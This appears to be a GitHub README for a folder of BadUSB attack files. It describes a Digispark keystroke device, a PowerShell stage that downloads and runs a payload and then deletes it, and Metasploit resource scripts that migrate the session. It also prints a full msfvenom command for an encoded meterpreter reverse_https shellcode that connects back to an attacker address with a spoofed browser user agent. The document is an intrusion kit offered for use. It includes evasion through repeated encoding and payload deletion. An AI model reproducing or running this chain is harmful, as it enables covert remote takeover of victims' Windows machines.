 # Folder with all the final payload/scripts

Items:
1. ```digispark.cpp``` digispark code for the attack, this version does not get admin privileges.
2. ```1.ps1``` first stage of the attack, download the payload and run it, deletes the payload after process migration is complete.
3. ```0.exe``` the payload.
4. ```kid_msf_auto.rc``` script to fill in all msfconsole parameters, also calls ```auto_migrate.rc``` to migrate process after session opens. run it as ```msfconsole -q -r /home/kali/kid_msf_auto.rc``` in terminal.
5. ```auto_migrate.rc``` to be ran after a session open, migrate process to powershell.exe. Payload will be deleted after migration.
6. ```payload_source.cpp``` source code of the payload.
7. ```shell.c``` raw shellcode generated by msfvenom, generated using ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```
